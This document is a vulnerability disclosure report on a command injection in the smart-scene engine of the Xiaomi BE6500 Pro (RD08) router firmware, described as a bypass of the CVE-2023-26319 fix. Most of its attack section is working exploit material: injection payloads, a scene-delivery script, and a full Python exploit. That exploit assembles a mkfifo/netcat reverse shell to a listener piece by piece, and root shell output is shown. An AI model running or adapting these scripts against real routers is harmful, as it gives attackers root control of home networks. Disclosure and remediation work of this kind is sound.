



# Xiaomi BE6500 Pro (RD08) Smart Router

- Vendor: Xiaomi
- Product: BE6500 Pro
- Model: RD08
- Firmware version: 1.1.123 (`miwifi_rd08_all_10c3b_1.1.123.bin`, built 2026-09-22)
- Architecture: aarch64 / musl / OpenWrt 18.06 base + Xiaomi xq framework
- Vulnerability type: Command injection (root RCE, post-auth, CVE-2023-26319 fix bypass)

# Description

The smart-scene engine `/usr/sbin/smartcontroller` of the Xiaomi BE6500 Pro (RD08) firmware 1.1.123 contains a command injection. The `run_sysapi_macfilter` handler of the `wan_block`/`wan_unblock` scene actions concatenates the user-controllable `mac` field from the scene JSON into a shell command **without any filtering** and executes it via `system()` as root:

```c
char cmd[100];
snprintf(cmd, 100,
  "/usr/sbin/sysapi macfilter set mac=%s wan=%s;/usr/sbin/sysapi macfilter commit",
  mac, enable ? "no" : "yes");
system(cmd);   // executes as root
```

An attacker delivers a malicious scene through the scene-sync channel (thrifttunnel option 2 / ubus `smartcontroller process_request`); a `;command;` in the `mac` field is injected and executes arbitrary commands with **root (uid=0)** privileges.

**Relationship to CVE-2023-26319 (important)**: that CVE (disclosed by Thalium in 2023) shares the **same root cause** (`run_sysapi_macfilter` does not filter `mac`). The vendor's fix only added a `hackCheck` at the Web lua entry (blocking `;|&$\`<>` etc.), **but the sink inside the smartcontroller binary remains unpatched to this day (1.1.123)** — any channel that bypasses the Web entry and reaches the scene engine directly (e.g. the Mi Home scene-sync link) can still trigger it. This is an **incomplete fix / fix bypass**.

# Impact

An attacker executes arbitrary commands with **root** privileges and fully controls the device — reading/writing the whole configuration, implanting a persistent backdoor, tampering with DNS/routing, and pivoting into the internal network. The trigger channel is the internal channel used by the Mi Home app scene sync (the Web management API `/api/xqsmarthome/request_smartcontroller` is already unusable directly because of the 1.1.x `hackCheck`).

# Vulnerability Details

## 1. Affected Component and Root Cause

The vulnerability resides in the scene-action handler `run_sysapi_macfilter` of the smart-scene engine `/usr/sbin/smartcontroller` (**running as root**).

**Taint source** — the `payload.mac` field of the scene JSON (user-controllable, from the scene-sync channel):

```json
{"command":"wan_block","mac":";id>/tmp/pwn;"}
```

**Taint sink** — concatenated into a `sysapi` command and executed via `system()` (unfiltered/unquoted):

```c
snprintf(cmd, 100,
  "/usr/sbin/sysapi macfilter set mac=%s wan=%s;/usr/sbin/sysapi macfilter commit",
  mac, enable ? "no" : "yes");
system(cmd);   // ★ mac is unfiltered
```

Observed `/bin/sh` command-line log:

```
CMD: /bin/sh -c /usr/sbin/sysapi macfilter set mac=;id>/tmp/pwn; wan=no;/usr/sbin/sysapi macfilter commit
```

**Exploitation constraints (verified):**

| Constraint | Verification result |
|---|---|
| Field length | A single `mac` is ≤ 22 chars (100-byte snprintf stack buffer; exceeding it triggers a fortify `__break` crash) |
| Injection syntax | `;cmd;` verified |
| Execution context | `uid=0(root) gid=0(root) groups=0(root)` |
| Output channel | No echo; redirect to a file (`>/tmp/pwn`) and read it from the chroot filesystem |
| Arbitrary-length command | Bypassed by writing the file across multiple scene fragments (26 scenes assemble a full reverse shell) |

## 2. Trigger Channel and Authentication

- Trigger chain: `thrifttunnel option 2` (or ubus `smartcontroller process_request`) → `scene_setting` creates the scene → `scene_start` triggers it.
- The Web management API entry `/api/xqsmarthome/request_smartcontroller` is already blocked by the 1.1.x `hackCheck` (returns 500), but **the channel that reaches the scene engine directly, bypassing the Web entry (the Mi Home scene sync), is still usable**.
- This is **post-auth** (the device must be bound to a Mi account and use the scene-sync link); locally the emulation delivers it directly via `thrifttunnel` inside the chroot.

## 3. Proof of Concept (PoC)

> Environment: VM 192.168.35.137, qemu-aarch64 chroot full-stack emulation (ubusd + nginx + datacenter:9090 + indexservice:9088 + smartcontroller all actually running).

### Step 1 — Start the full-stack emulation

```bash
cd ~/Desktop/work/rd08
echo iot | sudo -S chroot rootfs /usr/bin/qemu-aarch64-static /bin/busybox sh /start_web.sh
```

### Step 2 — Create and trigger a malicious scene (mac injection)

```bash
cd ~/Desktop/work/rd08
python3 fire.py ';id>/tmp/pwn;'   # scene_setting + scene_start
# returns create/start both code 0
```



fire.py full code (delivers scene_setting + scene_start via thrifttunnel option 2):

```python
#!/usr/bin/env python3
# Trigger a one-shot command via a fresh scene
import json, base64, subprocess, random, time, sys

R = "/home/iotsec-zone/Desktop/work/rd08/rootfs"

def thrift(opt, obj):
    b64 = base64.b64encode(json.dumps(obj).encode()).decode()
    p = subprocess.run(["sudo", "-S", "chroot", R, "/usr/bin/qemu-aarch64-static",
                        "/usr/sbin/thrifttunnel", str(opt), b64],
                       input=b"iot\n", capture_output=True, timeout=60)
    return p.stdout.decode(errors="replace").strip()

def fire(mac):
    sid = random.randint(100000, 899999)
    inner = json.dumps({"command": "wan_block", "mac": mac})
    action = {"block": 1, "delay": 0, "extra": {"duration": 60000, "total_length": 0},
              "keyName": "x", "name": "x", "thirdParty": "xmrouter",
              "type": "wan_block", "payload": inner}
    scene = {"command": "scene_setting", "id": sid, "name": "t",
             "action_list": [action],
             "launch": {"timer": {"enabled": False, "time": "00:00:00", "utc_time": 9999999999999}}}
    print("create:", thrift(2, scene))
    print("start:", thrift(2, {"command": "scene_start", "id": sid}))

if __name__ == "__main__":
    fire(sys.argv[1])
```

### Step 3 — Read back the command output (core evidence)

```bash
cat /home/iotsec-zone/Desktop/work/rd08/rootfs/tmp/pwn
```

Observed output:

```
uid=0(root) gid=0(root) groups=0(root)
```



### Full exploitation — Reverse shell (bypassing the 22-char limit by fragmentation)

A single `mac` is ≤22 chars, so `exploit_scene.py` writes the full reverse-shell command piece by piece into `/tmp/pa…pz` across multiple scenes, then triggers `;cat /tmp/p*|sh;` to execute it.

First start the listener (on the VM, port 44):

```bash
sudo nc -lvp 44
```

Then run the fragmented exploit:

```python
#!/usr/bin/env python3
# Exploit: Xiaomi BE6500 Pro (RD08) 1.1.123 smartcontroller scene command injection -> root RCE
# Each scene carries <=22 chars injected via wan_block mac; pieces land in /tmp/[a-z],
# assembled with a glob so async scene execution order doesn't matter.
import json, base64, subprocess, time, sys

R = "/home/iotsec-zone/Desktop/work/rd08/rootfs"
TARGET = "rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 192.168.35.137 44 >/tmp/f"
SCENE_BASE = 90000

def thrift(opt, obj):
    b64 = base64.b64encode(json.dumps(obj).encode()).decode()
    p = subprocess.run(["sudo", "-S", "chroot", R, "/usr/bin/qemu-aarch64-static",
                        "/usr/sbin/thrifttunnel", str(opt), b64],
                       input=b"iot\n", capture_output=True, timeout=60)
    return p.stdout.decode(errors="replace").strip()

_sid = [SCENE_BASE]
def run_mac(mac):
    _sid[0] += 1
    sid = _sid[0]
    inner = json.dumps({"command": "wan_block", "mac": mac})
    action = {"block": 1, "delay": 0, "extra": {"duration": 60000, "total_length": 0},
              "keyName": "x", "name": "x", "thirdParty": "xmrouter",
              "type": "wan_block", "payload": inner}
    scene = {"command": "scene_setting", "id": sid, "name": "t",
             "action_list": [action],
             "launch": {"timer": {"enabled": False, "time": "00:00:00", "utc_time": 9999999999999}}}
    r1 = thrift(2, scene)
    assert '"code": 0' in r1, "scene_setting failed: " + r1
    r2 = thrift(2, {"command": "scene_start", "id": sid})
    assert '"code": 0' in r2, "scene_start failed: " + r2
    time.sleep(3)

def readfile(path):
    return subprocess.run(["sudo", "-S", "cat", R + path], input=b"iot\n",
                          capture_output=True).stdout.decode()

def rm(pattern):
    subprocess.run(["sudo", "-S", "sh", "-c", "rm -f %s" % pattern],
                   input=b"iot\n", capture_output=True)

def main():
    print("[*] target:", TARGET)
    # chunk into <=3-char pieces
    pieces = [TARGET[i:i+3] for i in range(0, len(TARGET), 3)]
    files = ["/tmp/p%s" % chr(ord('a') + i) for i in range(len(pieces))]
    print("[*] pieces:", pieces)
    for f in files:
        rm(R + "/tmp/" + f.split("/")[-1])
    for piece, f in zip(pieces, files):
        mac = ';printf "%s">%s;' % (piece, f)
        assert len(mac) <= 22, mac
        for attempt in range(8):
            run_mac(mac)
            if readfile(f) == piece:
                break
            time.sleep(3)
        else:
            raise SystemExit("piece failed: %r" % piece)
        print("[*] %s = %r ok" % (f, piece), flush=True)
    glob = "/tmp/p*"
    mac = ";cat %s|sh;" % glob
    print("[*] trigger:", mac, len(mac))
    assert len(mac) <= 22
    run_mac(mac)
    print("[+] reverse shell triggered")

if __name__ == "__main__":
    main()
```

Result:

```
$ id
uid=0(root) gid=0(root) groups=0(root)
/ # uname -a
Linux iotseczone ... aarch64 GNU/Linux
```



## 4. Root Cause Summary

1. `run_sysapi_macfilter` concatenates the `mac` field into `sysapi macfilter set mac=%s ...` **without filtering/quoting**;
2. It ultimately goes through `system()` → `/bin/sh -c`, so the shell evaluates the `;`-separated command;
3. `smartcontroller` runs as root, so the injected command executes with the highest privileges;
4. The vendor only added `hackCheck` at the Web lua entry and **did not fix the binary sink**, so the scene-sync channel that bypasses the Web entry is still reachable (CVE-2023-26319 fix bypass).

## 5. Remediation

- Apply strict format validation to `mac` inside `run_sysapi_macfilter` (`^([0-9A-Fa-f]{2}:){5}[0-9A-Fa-f]{2}$`), rather than relying on entry-layer filtering;
- Replace the command concatenation with parameterized calls (`execv` family), eliminating shell concatenation;
- Unify the validation logic across all scene-input channels (Web, miio, MQTT sync).
